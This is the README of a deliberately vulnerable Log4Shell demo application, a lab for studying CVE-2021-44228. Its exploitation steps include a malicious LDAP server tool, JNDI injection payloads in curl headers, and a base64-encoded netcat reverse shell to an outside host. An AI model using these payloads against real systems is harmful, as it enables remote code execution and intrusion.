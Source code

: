 ### I just added a payload for running reverse shell on Alpine Linux

# Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Running a reverse shell on Alpine-Linux:

```bash
# will execute 'add netcat-openbsd && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/ash -i 2>&1|nc 172.17.0.1 1234 >/tmp/f'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.29.129:1389/Basic/Command/Base64/YWRkIG5ldGNhdC1vcGVuYnNkICYmIHJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9hc2ggLWkgMj4mMXxuYyAxNzIuMTcuMC4xIDEyMzQgPi90bXAvZg==}'

```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
